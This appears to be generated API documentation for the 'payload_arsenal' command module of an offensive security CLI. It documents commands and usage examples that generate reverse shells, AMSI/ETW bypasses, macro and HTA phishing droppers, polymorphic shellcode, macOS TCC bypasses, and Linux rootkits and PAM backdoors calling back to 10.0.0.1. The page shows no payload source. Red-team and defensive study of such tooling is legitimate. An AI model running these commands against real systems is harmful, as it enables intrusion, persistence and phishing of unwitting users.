

# `cli.commands.payload_arsenal`

> Source: [cli/commands/payload_arsenal.py:1](../../cli/commands/payload_arsenal.py#L1) | language `py` | coverage 100.0% | [API index](../index.md)

Payload arsenal commands — dotnet, reflective DLL, staged delivery, polymorphic, macOS/Linux payloads.

Provides:
    dotnet_payload          — Generate .NET/C# payloads (reverse shell, beacon, injection, bypass)
    show dotnet_templates   — List available .NET/C# template names
    reflective_dll          — Analyze a PE/DLL for reflective loading
    staged_delivery         — Generate HTA, VBA, XLM, LNK, ISO, VHD delivery artifacts
    show staged_formats     — List available staged delivery formats
    polymorphic             — Apply polymorphic mutation to shellcode
    macos_payload           — Generate macOS .app bundles, persistence, TCC bypass
    show macos_payloads     — List available macOS payload types
    linux_advanced_payload  — Generate LD_PRELOAD rootkits, eBPF, PAM backdoors, kernel modules
    show linux_payloads     — List available Linux advanced payload types

## Contents

- **Classes:** [`PayloadArsenalCommandSet`](#payloadarsenalcommandset)

## Type Diagram



## Call Graph

Solid arrows stay in this module, dashed arrows leave it.

```mermaid
flowchart LR
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_dotnet_payload(["PayloadArsenalCommandSet.do_dotnet_payload"])
    n_modules_dotnet_payload_py__DotNetPayloadConfig["dotnet_payload.DotNetPayloadConfig"]
    n_modules_dotnet_payload_py__DotNetPayloadFactory___init__["dotnet_payload.DotNetPayloadFactory.__init__"]
    n_modules_dotnet_payload_py__DotNetPayloadFactory_generate["dotnet_payload.DotNetPayloadFactory.generate"]
    n_modules_dotnet_payload_py__DotNetPayloadFactory_generate_inline_assembly["dotnet_payload.DotNetPayloadFactory.generate_inline_assembly"]
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_arsenal_show(["PayloadArsenalCommandSet.do_arsenal_show"])
    n_modules_dotnet_payload_py__DotNetPayloadFactory_list_templates["dotnet_payload.DotNetPayloadFactory.list_templates"]
    n_modules_linux_advanced_payloads_py__LinuxAdvancedPayloadFactory___init__["linux_advanced_payloads.LinuxAdvancedPayloadFactory.__init__"]
    n_modules_linux_advanced_payloads_py__LinuxAdvancedPayloadFactory_list_hook_functions["linux_advanced_payloads.LinuxAdvancedPayloadFactory.list_hook_functions"]
    n_modules_linux_advanced_payloads_py__LinuxAdvancedPayloadFactory_list_persistence_methods["linux_advanced_payloads.LinuxAdvancedPayloadFactory.list_persistence_methods"]
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery(["PayloadArsenalCommandSet.do_staged_delivery"])
    n_modules_staged_delivery_py__StageDeliveryConfig["staged_delivery.StageDeliveryConfig"]
    n_modules_staged_delivery_py__StagedDeliveryFactory___init__["staged_delivery.StagedDeliveryFactory.__init__"]
    n_modules_staged_delivery_py__StagedDeliveryFactory_generate_all["staged_delivery.StagedDeliveryFactory.generate_all"]
    n_modules_staged_delivery_py__StagedDeliveryFactory_generate_hta["staged_delivery.StagedDeliveryFactory.generate_hta"]
    n_modules_staged_delivery_py__StagedDeliveryFactory_generate_iso["staged_delivery.StagedDeliveryFactory.generate_iso"]
    n_modules_staged_delivery_py__StagedDeliveryFactory_generate_lnk["staged_delivery.StagedDeliveryFactory.generate_lnk"]
    n_modules_staged_delivery_py__StagedDeliveryFactory_generate_phishing_page["staged_delivery.StagedDeliveryFactory.generate_phishing_page"]
    n_modules_staged_delivery_py__StagedDeliveryFactory_generate_vba_macro["staged_delivery.StagedDeliveryFactory.generate_vba_macro"]
    n_modules_staged_delivery_py__StagedDeliveryFactory_generate_vhd["staged_delivery.StagedDeliveryFactory.generate_vhd"]
    n_modules_staged_delivery_py__StagedDeliveryFactory_generate_xlm_macro["staged_delivery.StagedDeliveryFactory.generate_xlm_macro"]
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_polymorphic(["PayloadArsenalCommandSet.do_polymorphic"])
    n_modules_polymorphic_engine_py__MutationConfig["polymorphic_engine.MutationConfig"]
    n_modules_polymorphic_engine_py__PolymorphicEngine___init__["polymorphic_engine.PolymorphicEngine.__init__"]
    n_modules_polymorphic_engine_py__PolymorphicEngine_get_audit_summary["polymorphic_engine.PolymorphicEngine.get_audit_summary"]
    n_modules_polymorphic_engine_py__PolymorphicEngine_mutate["polymorphic_engine.PolymorphicEngine.mutate"]
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_macos_payload(["PayloadArsenalCommandSet.do_macos_payload"])
    n_modules_macos_payloads_py__MacOSPayloadConfig["macos_payloads.MacOSPayloadConfig"]
    n_modules_macos_payloads_py__MacOSPayloadFactory___init__["macos_payloads.MacOSPayloadFactory.__init__"]
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_dotnet_payload -.-> n_modules_dotnet_payload_py__DotNetPayloadConfig
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_dotnet_payload -.-> n_modules_dotnet_payload_py__DotNetPayloadFactory___init__
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_dotnet_payload -.-> n_modules_dotnet_payload_py__DotNetPayloadFactory_generate
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_dotnet_payload -.-> n_modules_dotnet_payload_py__DotNetPayloadFactory_generate_inline_assembly
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_arsenal_show -.-> n_modules_dotnet_payload_py__DotNetPayloadFactory_list_templates
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_arsenal_show -.-> n_modules_linux_advanced_payloads_py__LinuxAdvancedPayloadFactory___init__
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_arsenal_show -.-> n_modules_linux_advanced_payloads_py__LinuxAdvancedPayloadFactory_list_hook_functions
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_arsenal_show -.-> n_modules_linux_advanced_payloads_py__LinuxAdvancedPayloadFactory_list_persistence_methods
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StageDeliveryConfig
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory___init__
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory_generate_all
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory_generate_hta
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory_generate_iso
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory_generate_lnk
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory_generate_phishing_page
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory_generate_vba_macro
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory_generate_vhd
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_staged_delivery -.-> n_modules_staged_delivery_py__StagedDeliveryFactory_generate_xlm_macro
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_polymorphic -.-> n_modules_polymorphic_engine_py__MutationConfig
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_polymorphic -.-> n_modules_polymorphic_engine_py__PolymorphicEngine___init__
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_polymorphic -.-> n_modules_polymorphic_engine_py__PolymorphicEngine_get_audit_summary
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_polymorphic -.-> n_modules_polymorphic_engine_py__PolymorphicEngine_mutate
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_macos_payload -.-> n_modules_macos_payloads_py__MacOSPayloadConfig
    n_cli_commands_payload_arsenal_py__PayloadArsenalCommandSet_do_macos_payload -.-> n_modules_macos_payloads_py__MacOSPayloadFactory___init__
```



## Classes

<a id="payloadarsenalcommandset"></a>

### `PayloadArsenalCommandSet`

`class` | [cli/commands/payload_arsenal.py:23](../../cli/commands/payload_arsenal.py#L23)

```python
class PayloadArsenalCommandSet(LazyOwnCommandSet)
```

Bases: [`LazyOwnCommandSet`](cli.commands._base.py.md#lazyowncommandset)

Dotnet, reflective DLL, staged delivery, polymorphic, macOS/Linux advanced payloads.

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`phase`](#payloadarsenalcommandset-phase) |  | `'payload'` |  |
| [`category`](#payloadarsenalcommandset-category) |  | `'10. Payload Arsenal'` |  |

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`do_dotnet_payload`](#payloadarsenalcommandset-do_dotnet_payload) | method | Generate a .NET/C# payload. |
| [`do_arsenal_show`](#payloadarsenalcommandset-do_arsenal_show) | method | Show payload arsenal items. |
| [`do_staged_delivery`](#payloadarsenalcommandset-do_staged_delivery) | method | Generate staged delivery artifacts (HTA, VBA, LNK, ISO, VHD). |
| [`do_polymorphic`](#payloadarsenalcommandset-do_polymorphic) | method | Apply polymorphic mutation to shellcode. |
| [`do_macos_payload`](#payloadarsenalcommandset-do_macos_payload) | method | Generate macOS payloads (.app bundles, persistence, TCC bypass). |
| [`do_linux_advanced_payload`](#payloadarsenalcommandset-do_linux_advanced_payload) | method | Generate advanced Linux payloads (LD_PRELOAD, eBPF, PAM, kernel module). |

<a id="payloadarsenalcommandset-do_dotnet_payload"></a>

#### `PayloadArsenalCommandSet.do_dotnet_payload`

`method` | [cli/commands/payload_arsenal.py:29](../../cli/commands/payload_arsenal.py#L29)

```python
def do_dotnet_payload(self, line: str) -> None
```

Generate a .NET/C# payload.

Usage: dotnet_payload <template> [LHOST=<ip>] [LPORT=<port>] [--format f] [--target exe|dll] [--platform x86|x64|AnyCPU]

Templates: reverse_tcp, http_beacon, process_injection, amsi_bypass, etw_bypass, token_impersonation

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  |  |

**Example**

```python
dotnet_payload reverse_tcp LHOST=10.0.0.1 LPORT=4444
dotnet_payload http_beacon LHOST=10.0.0.1 LPORT=443 --format ps1
dotnet_payload process_injection shellcode_b64=BASE64 --target exe --platform x64
```

*Calls:* [`DotNetPayloadConfig`](modules.dotnet_payload.py.md#dotnetpayloadconfig), [`DotNetPayloadFactory.__init__`](modules.dotnet_payload.py.md#dotnetpayloadfactory-__init__), [`DotNetPayloadFactory.generate`](modules.dotnet_payload.py.md#dotnetpayloadfactory-generate), [`DotNetPayloadFactory.generate_inline_assembly`](modules.dotnet_payload.py.md#dotnetpayloadfactory-generate_inline_assembly)

<a id="payloadarsenalcommandset-do_arsenal_show"></a>

#### `PayloadArsenalCommandSet.do_arsenal_show`

`method` | [cli/commands/payload_arsenal.py:114](../../cli/commands/payload_arsenal.py#L114)

```python
def do_arsenal_show(self, line: str) -> None
```

Show payload arsenal items.

Usage: arsenal_show <category>

Categories: dotnet_templates, staged_formats, macos_payloads, linux_payloads

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  |  |

*Calls:* [`DotNetPayloadFactory.list_templates`](modules.dotnet_payload.py.md#dotnetpayloadfactory-list_templates), [`LinuxAdvancedPayloadFactory.__init__`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-__init__), [`LinuxAdvancedPayloadFactory.list_hook_functions`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-list_hook_functions), [`LinuxAdvancedPayloadFactory.list_persistence_methods`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-list_persistence_methods)

<a id="payloadarsenalcommandset-do_staged_delivery"></a>

#### `PayloadArsenalCommandSet.do_staged_delivery`

`method` | [cli/commands/payload_arsenal.py:172](../../cli/commands/payload_arsenal.py#L172)

```python
def do_staged_delivery(self, line: str) -> None
```

Generate staged delivery artifacts (HTA, VBA, LNK, ISO, VHD).

Usage: staged_delivery <format> [LHOST=<ip>] [LPORT=<port>] [--app-name "Name"]

Formats: hta, vba, xlm, lnk, iso, vhd, all
Phishing: office365, gmail, outlook

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  |  |

**Example**

```python
staged_delivery hta LHOST=10.0.0.1 LPORT=443 --app-name "QuarterlyReport"
staged_delivery all LHOST=10.0.0.1 LPORT=8443
staged_delivery office365 LHOST=10.0.0.1 LPORT=443
```

*Calls:* [`StageDeliveryConfig`](modules.staged_delivery.py.md#stagedeliveryconfig), [`StagedDeliveryFactory.__init__`](modules.staged_delivery.py.md#stageddeliveryfactory-__init__), [`StagedDeliveryFactory.generate_all`](modules.staged_delivery.py.md#stageddeliveryfactory-generate_all), [`StagedDeliveryFactory.generate_hta`](modules.staged_delivery.py.md#stageddeliveryfactory-generate_hta), [`StagedDeliveryFactory.generate_iso`](modules.staged_delivery.py.md#stageddeliveryfactory-generate_iso), [`StagedDeliveryFactory.generate_lnk`](modules.staged_delivery.py.md#stageddeliveryfactory-generate_lnk), [`StagedDeliveryFactory.generate_phishing_page`](modules.staged_delivery.py.md#stageddeliveryfactory-generate_phishing_page), [`StagedDeliveryFactory.generate_vba_macro`](modules.staged_delivery.py.md#stageddeliveryfactory-generate_vba_macro), [`StagedDeliveryFactory.generate_vhd`](modules.staged_delivery.py.md#stageddeliveryfactory-generate_vhd), [`StagedDeliveryFactory.generate_xlm_macro`](modules.staged_delivery.py.md#stageddeliveryfactory-generate_xlm_macro)

<a id="payloadarsenalcommandset-do_polymorphic"></a>

#### `PayloadArsenalCommandSet.do_polymorphic`

`method` | [cli/commands/payload_arsenal.py:261](../../cli/commands/payload_arsenal.py#L261)

```python
def do_polymorphic(self, line: str) -> None
```

Apply polymorphic mutation to shellcode.

Usage: polymorphic <shellcode_hex> [--passes N] [--arch x64|x86] [--nop] [--xor] [--compress] [--base64]

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  |  |

**Example**

```python
polymorphic fc4883e4f0e8c0000000415141505251564831 --passes 3
polymorphic $(cat shellcode.hex) --passes 5 --xor --compress --base64
```

*Calls:* [`MutationConfig`](modules.polymorphic_engine.py.md#mutationconfig), [`PolymorphicEngine.__init__`](modules.polymorphic_engine.py.md#polymorphicengine-__init__), [`PolymorphicEngine.get_audit_summary`](modules.polymorphic_engine.py.md#polymorphicengine-get_audit_summary), [`PolymorphicEngine.mutate`](modules.polymorphic_engine.py.md#polymorphicengine-mutate)

<a id="payloadarsenalcommandset-do_macos_payload"></a>

#### `PayloadArsenalCommandSet.do_macos_payload`

`method` | [cli/commands/payload_arsenal.py:328](../../cli/commands/payload_arsenal.py#L328)

```python
def do_macos_payload(self, line: str) -> None
```

Generate macOS payloads (.app bundles, persistence, TCC bypass).

Usage: macos_payload <type> [LHOST=<ip>] [LPORT=<port>] [--app-name "Name"]

Types: app_bundle, launchd, tcc_bypass, osascript, swift, all

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  |  |

**Example**

```python
macos_payload app_bundle LHOST=10.0.0.1 LPORT=4444 --app-name "SystemPreferences"
macos_payload launchd LHOST=10.0.0.1 LPORT=8443
macos_payload all LHOST=10.0.0.1 LPORT=4444
```

*Calls:* [`MacOSPayloadConfig`](modules.macos_payloads.py.md#macospayloadconfig), [`MacOSPayloadFactory.__init__`](modules.macos_payloads.py.md#macospayloadfactory-__init__), [`MacOSPayloadFactory.generate_all`](modules.macos_payloads.py.md#macospayloadfactory-generate_all), [`MacOSPayloadFactory.generate_app_bundle`](modules.macos_payloads.py.md#macospayloadfactory-generate_app_bundle), [`MacOSPayloadFactory.generate_launchd_persistence`](modules.macos_payloads.py.md#macospayloadfactory-generate_launchd_persistence), [`MacOSPayloadFactory.generate_osascript_dropper`](modules.macos_payloads.py.md#macospayloadfactory-generate_osascript_dropper), [`MacOSPayloadFactory.generate_swift_stager`](modules.macos_payloads.py.md#macospayloadfactory-generate_swift_stager), [`MacOSPayloadFactory.generate_tcc_bypass`](modules.macos_payloads.py.md#macospayloadfactory-generate_tcc_bypass)

<a id="payloadarsenalcommandset-do_linux_advanced_payload"></a>

#### `PayloadArsenalCommandSet.do_linux_advanced_payload`

`method` | [cli/commands/payload_arsenal.py:401](../../cli/commands/payload_arsenal.py#L401)

```python
def do_linux_advanced_payload(self, line: str) -> None
```

Generate advanced Linux payloads (LD_PRELOAD, eBPF, PAM, kernel module).

Usage: linux_advanced_payload <type> [LHOST=<ip>] [LPORT=<port>]

Types: ld_preload, ebpf, pam_backdoor, systemd, ssh, kernel_module, motd, udev, all

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  |  |

**Example**

```python
linux_advanced_payload ld_preload LHOST=10.0.0.1 LPORT=4444 --hook accept
linux_advanced_payload pam_backdoor LHOST=10.0.0.1 LPORT=8443
linux_advanced_payload all LHOST=10.0.0.1 LPORT=4444
```

*Calls:* [`LinuxAdvancedConfig`](modules.linux_advanced_payloads.py.md#linuxadvancedconfig), [`LinuxAdvancedPayloadFactory.__init__`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-__init__), [`LinuxAdvancedPayloadFactory.compile_c_source`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-compile_c_source), [`LinuxAdvancedPayloadFactory.generate_all`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_all), [`LinuxAdvancedPayloadFactory.generate_ebpf_payload`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_ebpf_payload), [`LinuxAdvancedPayloadFactory.generate_kernel_module`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_kernel_module), [`LinuxAdvancedPayloadFactory.generate_ld_preload_rootkit`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_ld_preload_rootkit), [`LinuxAdvancedPayloadFactory.generate_motd_backdoor`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_motd_backdoor), [`LinuxAdvancedPayloadFactory.generate_pam_backdoor`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_pam_backdoor), [`LinuxAdvancedPayloadFactory.generate_ssh_persistence`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_ssh_persistence), [`LinuxAdvancedPayloadFactory.generate_systemd_persistence`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_systemd_persistence), [`LinuxAdvancedPayloadFactory.generate_udev_persistence`](modules.linux_advanced_payloads.py.md#linuxadvancedpayloadfactory-generate_udev_persistence)

---
